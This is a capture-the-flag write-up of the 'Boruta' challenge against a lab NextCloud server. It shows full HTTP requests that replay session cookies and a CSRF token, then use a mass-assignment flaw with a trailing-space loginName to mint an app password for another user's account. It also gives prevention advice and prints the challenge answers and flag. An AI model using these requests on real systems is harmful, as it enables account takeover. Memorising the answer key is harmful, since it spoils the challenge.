





[[ 🡅 Move up ]](../)</br>
[[ 🡄 Previous ]](../03_Baba%20Yaga/) **04: Boruta** [[ Next 🡆 ]](../05_Twardowski/)

# ☆ Boruta, the Trickster ☆

> Boruta is a mischievous and unpredictable figure, known for his ability to shape-shift and his love of pranks and practical jokes. As the company's Trickster, Boruta uses his skills to distract and confuse their enemies, often leading them astray with illusions and false leads. Despite his playful nature, Boruta is fiercely loyal to the company and will stop at nothing to help them achieve their goals.

## Exploitation

### Briefing

> Now that you know who Boruta is, there's one more thing you need to know about him. Boruta treats the security of his account with the utmost seriousness. In fact, he doesn't even use the main password to log into his account. Instead, he's very keen on the app passwords feature and praises it every chance he gets. In his mind, app passwords greatly align with his approach to security. 
>
> **What is a Mass Assignment vulnerability?** </br>
> The vulnerability occurs when an active record pattern in a web application is misused to modify data objects that should not be altered. This could allow an attacker to escalate privileges or otherwise affect the execution flow of the program. For the former, consider modifying the class member variable named role. An attacker could simply change its value from user to admin.
>
> Now it's time for you to prove yourself. Can you prank the prankster? Can you stay focused on the mission and avoid Boruta's red herrings?
>
> **Alternative ways to log in** </br>
> NextCloud web application is not the only way for the user to access their files. Can you figure out a way to use an app password? There's definitely more than one!
>
> **Useful resources** </br> 
> - [Mass Assignment - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html)

**Prerequisites**: Access to any account. </br>
**Your objective**: Find a way to log in to the boruta account.

### Reconnaissance

Again, the Briefing hints towards how we are going to access Boruta's account this time - using NextCloud alternative account access methods, such as their Desktop App.

Let's start by trying to access Baba Yaga's account (or any other that we can log into actually) using the alternative login method.

We start by downloading the [NextCloud client](https://nextcloud.com/clients/) for our device. After launching the app, we are shown a screen asking as to log in.



Putting in the server address we want to log into opens a new browser tab where we can authorize the app as a currently logged in user or use an app token to log in as another user - this will certainly be worth exploring.



The idea of app passwords sounds promising, as we don't need to be logged in as a certain user to authorize as one. Let's figure out how to create one first.

Going into `Settings > Security` and scrolling to the bottom allows us to create a new app password.



Looking at the Network tab, we can see the following information about the request we just sent:

```JSON
// Payload
{
    "name": "test"
}

// Response
{
    "deviceToken": /*(...)*/,
    "loginName": "babayaga",
    "token": "EjSib-jBaEW-3nSC2-mMfFm-J2Gip"
}
```

So there are two important things in the response:
- `token` is the app password we can use to authenticate with
- `loginName` is the username to which the token is bound to

Briefing also mentioned the Mass Assignment vulnerability, so let's see if we can use it here. For this, we will head into [Postman](https://www.postman.com/) - a tool that allows us to handcraft requests and debug them.

Trying to send the "raw" request based on the information from the Network tab yields the following message:

```HTTP
POST /settings/personal/authtokens HTTP/1.1
Host: 10.10.61.132
Content-Type: application/json
Content-Length: 16

{"name": "test"}
```

```JSON
{"message": "Current user is not logged in"}
```

Makes sense - while we are logged in inside the browser, we are not in Postman. To make us appear logged in from within Postman we need to copy the Cookies that were sent with the original web request (especially the ones keeping track of our current session).

Doing that and sending the request again presents us with a different message:

<details>
<summary>View HTTP Request</summary>

```HTTP
POST /settings/personal/authtokens HTTP/1.1
Host: 10.10.61.132
Content-Type: application/json
Cookie: oc_sessionPassphrase=t%2FIufQE9ZjGG%2Bj0UfGJJxVvVSHU9EJI6jXP7y%2B6%2F2UDRy7HpvT7Sm6j763wFHQ25Ym4l1eXsfVNRnf9ELmzB8JLOaRNISvXMeM9PQP%2BCJTbWRNA7%2BO7h7MhVESueboHF; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; ocuzsvwf431x=213413f4d5c7256d35c40ada346666ec; nc_username=babayaga; nc_token=%2FBOCBof%2Fn9PB3I2lfF93maNGZBmDFmtA; nc_session_id=213413f4d5c7256d35c40ada346666ec
Content-Length: 16

{"name": "test"}
```
</details>

```JSON
{"message": "CSRF check failed"}
```

Hmm, seems we tripped a Cross-Site Request Forgery countermeasure, we will need to find a way around that first.

Using the source code provided we can search for occurrences of `CSRF check failed` string to find that it's only used in `CrossSiteRequestForgeryException.php`. Following the "chain" we arrive at this code snippet in the familiar `SecurityMiddleware.php` file:

```PHP
if (!$this->request->passesCSRFCheck() && !(
    $controller instanceof OCSController && (
        $this->request->getHeader('OCS-APIREQUEST') === 'true' ||
        strpos($this->request->getHeader('Authorization'), 'Bearer ') === 0
        )
    )) {
        throw new CrossSiteRequestForgeryException();
    }
```

Looks kinda complicated but we are only interested in `passesCSRFCheck` function, which is another beast (implementation from `Request.php`):

```PHP
public function passesCSRFCheck(): bool {
    if ($this->csrfTokenManager === null) { return false; }
    if (!$this->passesStrictCookieCheck()) { return false; }

    if (isset($this->items['get']['requesttoken'])) {
        $token = $this->items['get']['requesttoken'];
    } elseif (isset($this->items['post']['requesttoken'])) {
        $token = $this->items['post']['requesttoken'];
    } elseif (isset($this->items['server']['HTTP_REQUESTTOKEN'])) {
        $token = $this->items['server']['HTTP_REQUESTTOKEN'];
    } else {
        //no token found.
        return false;
    }
    $token = new CsrfToken($token);

    return $this->csrfTokenManager->isTokenValid($token);
	}
```

This function checks two things - whether there is a `requesttoken` somewhere in the request, and whether it is valid, which means we cannot use anything random.

Looking back at the original request we can notice a `RequestToken` header being sent with it - let's add this newly found header to our handcrafted request:

<details>
<summary>View HTTP Request</summary>

```HTTP
POST /settings/personal/authtokens HTTP/1.1
Host: 10.10.61.132
Cookie: oc_sessionPassphrase=t%2FIufQE9ZjGG%2Bj0UfGJJxVvVSHU9EJI6jXP7y%2B6%2F2UDRy7HpvT7Sm6j763wFHQ25Ym4l1eXsfVNRnf9ELmzB8JLOaRNISvXMeM9PQP%2BCJTbWRNA7%2BO7h7MhVESueboHF; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; ocuzsvwf431x=213413f4d5c7256d35c40ada346666ec; nc_username=babayaga; nc_token=%2FBOCBof%2Fn9PB3I2lfF93maNGZBmDFmtA; nc_session_id=213413f4d5c7256d35c40ada346666ec; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; oc_sessionPassphrase=C7%2FV7y329E2yz%2BS6PGw%2BvMc2zu1yrMAclub8ITjSP3O2NJ%2BstEwA%2Fl2TGZiIS6Hn%2FtO8X5X5mRfE1uyg1QxZhIyYByUvvFbUXZmyDZwneGu0Ix4gqlKzzZRb7ariPa7%2F; ocuzsvwf431x=b6f9a9ef03dd9cc56ea720fc6b2d80fe
RequestToken: 3Cbw50WVRibbJW4+zZlvzls2UREk9rUlYAojdHw+fmU=:qVSalQzebRC5EVxKgtAkpzIAZUIPmsVcNzlIM0pLOCc=
Content-Type: application/json
Content-Length: 16

{"name": "test"}
```
</details>

```JSON
{
    "token": "X3Hpi-QM9Tg-3m92k-eP2Xt-Kyw22",
    "loginName": "babayaga",
    /* (...) */
}
```

Finally, a sensible response!

Now, the question arises, what happens if we pass `loginName` as a payload parameter?

<details>
<summary>View HTTP Request</summary>

```HTTP
POST /settings/personal/authtokens HTTP/1.1
Host: 10.10.61.132
Cookie: oc_sessionPassphrase=t%2FIufQE9ZjGG%2Bj0UfGJJxVvVSHU9EJI6jXP7y%2B6%2F2UDRy7HpvT7Sm6j763wFHQ25Ym4l1eXsfVNRnf9ELmzB8JLOaRNISvXMeM9PQP%2BCJTbWRNA7%2BO7h7MhVESueboHF; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; ocuzsvwf431x=213413f4d5c7256d35c40ada346666ec; nc_username=babayaga; nc_token=%2FBOCBof%2Fn9PB3I2lfF93maNGZBmDFmtA; nc_session_id=213413f4d5c7256d35c40ada346666ec; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; oc_sessionPassphrase=C7%2FV7y329E2yz%2BS6PGw%2BvMc2zu1yrMAclub8ITjSP3O2NJ%2BstEwA%2Fl2TGZiIS6Hn%2FtO8X5X5mRfE1uyg1QxZhIyYByUvvFbUXZmyDZwneGu0Ix4gqlKzzZRb7ariPa7%2F; ocuzsvwf431x=b6f9a9ef03dd9cc56ea720fc6b2d80fe
RequestToken: 3Cbw50WVRibbJW4+zZlvzls2UREk9rUlYAojdHw+fmU=:qVSalQzebRC5EVxKgtAkpzIAZUIPmsVcNzlIM0pLOCc=
Content-Type: application/json
Content-Length: 39

{"name": "test", "loginName": "boruta"}
```
</details>

```JSON
{"error": "Blocked by web application firewall."}
```

Sweet, more errors, at least they are a different flavor.

Looking into the code again, we can trace back this error to a function inside `AuthSettingsController.php`:

```PHP
public function create($name, $loginName) {
    $ALLOWED_USERS = ['boruta'];

    if (in_array($loginName, $ALLOWED_USERS) && !is_null($loginName)){
        return new JSONResponse([
            'error' => "Blocked by web application firewall.",
        ]);
    }

    if (!in_array(rtrim($loginName), $ALLOWED_USERS) && !is_null($loginName)){
        return new JSONResponse([
            'error' => "Account ".$loginName." does not support device tokens.",
        ]);
    }

    /* (...) */

    if(is_null($loginName)) {
        $loginName = $loginName2;
    }
    else {
        $loginName = rtrim($loginName);
    }
}
```

There are two checks between us and the finish line. After a while we can clearly see that whereas `boruta` will fail the check, `boruta ` (with an extra space character) will pass both of them and even better - the final value of `loginName` is whatever we passed in, stripped from white characters from the right, giving us just what we need!

Let's use this new knowledge to construct another request:

<details>
<summary>View HTTP Request</summary>

```HTTP
POST /settings/personal/authtokens HTTP/1.1
Host: 10.10.61.132
Cookie: oc_sessionPassphrase=t%2FIufQE9ZjGG%2Bj0UfGJJxVvVSHU9EJI6jXP7y%2B6%2F2UDRy7HpvT7Sm6j763wFHQ25Ym4l1eXsfVNRnf9ELmzB8JLOaRNISvXMeM9PQP%2BCJTbWRNA7%2BO7h7MhVESueboHF; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; ocuzsvwf431x=213413f4d5c7256d35c40ada346666ec; nc_username=babayaga; nc_token=%2FBOCBof%2Fn9PB3I2lfF93maNGZBmDFmtA; nc_session_id=213413f4d5c7256d35c40ada346666ec; nc_sameSiteCookielax=true; nc_sameSiteCookiestrict=true; oc_sessionPassphrase=C7%2FV7y329E2yz%2BS6PGw%2BvMc2zu1yrMAclub8ITjSP3O2NJ%2BstEwA%2Fl2TGZiIS6Hn%2FtO8X5X5mRfE1uyg1QxZhIyYByUvvFbUXZmyDZwneGu0Ix4gqlKzzZRb7ariPa7%2F; ocuzsvwf431x=b6f9a9ef03dd9cc56ea720fc6b2d80fe
RequestToken: 3Cbw50WVRibbJW4+zZlvzls2UREk9rUlYAojdHw+fmU=:qVSalQzebRC5EVxKgtAkpzIAZUIPmsVcNzlIM0pLOCc=
Content-Type: application/json
Content-Length: 40

{"name": "test", "loginName": "boruta "}
```
</details>

```JSON
{
    "token": "FS9pE-ZpTX9-skP8z-8cRTk-NRMiY",
    "loginName": "boruta",
    /* (...) */
}
```

Being logged in as `babayaga` we just created an app password to access `boruta` account. Looks like we found the vulnerability we were looking for.

### Attack Vector

Mass Assignment Vulnerability for `/settings/personal/authtokens` endpoint.

### Execution

First, we create an app password just as shown before. With the token (app password) in hand, we can start the authorization process by launching the NextCloud client, entering the host address and logging using app password this time. Put in the username, the app password...



... and we are in!



With that, NextCloud client allows us to specify synchronization options and finally, access the files on that account. Keep in mind though, we don't have access to the account itself, but in the end we don't need it.

## Prevention

When dealing with any kind of user input you always need to sanitize it. "Trusting" the user to put in the right data and nothing more created a huge security risk, which can be easily exploited.

When processing object-like user input (like in the example above) always assign only specific properties and not the whole object (in our case, the only copied property from the input object should be `name`).

There are multiple libraries available to make handling user input a breeze, for example, [Zod](https://zod.dev/), my personal go-to library for projects in JavaScript.

## Tasks

### What parameter name assigns the app password to the specific user?

<details>
<summary>Answer</summary>

`loginName`

</details>

Discovered when creating a new app password.

### What is the content of the Fern_flower_ritual_shard4.txt file in Boruta's account?

<details>
<summary>Fern_flower_ritual_shard4.txt</summary>

`Midsummer_Corp{L3ave_an_0ff3r1ng_f0r_th3_spir1ts}`

</details>

Found in the account's files.

</br>
</br>
</br>

[[ 🡅 Move up ]](../)</br>
[[ 🡄 Previous ]](../03_Baba%20Yaga/) **04: Boruta** [[ Next 🡆 ]](../05_Twardowski/)